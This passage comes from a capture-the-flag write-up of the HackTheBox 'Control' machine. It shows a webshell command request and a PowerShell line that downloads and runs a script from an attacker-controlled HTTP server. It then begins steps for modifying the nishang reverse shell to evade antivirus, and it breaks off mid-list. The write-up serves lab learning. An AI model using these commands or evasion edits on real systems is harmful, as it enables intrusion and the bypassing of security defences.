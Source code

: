 <img src="https://raw.githubusercontent.com/dumbx90/dumbx90.github.io/master/assets/img/commons/hackthebox/control/control-shell-command-whoami.png" alt="control-shell-command-whoami" style="zoom:75%;" />



For convenience we send our request to burb, intercept them  and change the request method( right click and select "change the reques method").

````php
POST /dumb.php HTTP/1.1
Host: 10.10.10.167
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 192.168.4.28
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

cmd=whoami
````

We achieve **command execution** in host. If we can, upload a better webshell but my goal is  **"Live of The Land"**, so I will continue with simple webshell. Just for example, setup a HTTP server with python and run the following command in **burp repeater**:

```php
cmd=powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.13/dumb-wee.php')"
```





## Initial Shell 



Now we use **nishang webshell** to get a shell, but first we need change somethings to escape **Anti Virus** :

```bash
❯ cp ~/tools/nishang/Shells/Invoke-PowerShellTcp.ps1 dumb-shell.ps1 
```

1. Delete all comments, 
2. Change the name of the function 
3. Write this in the end of file:

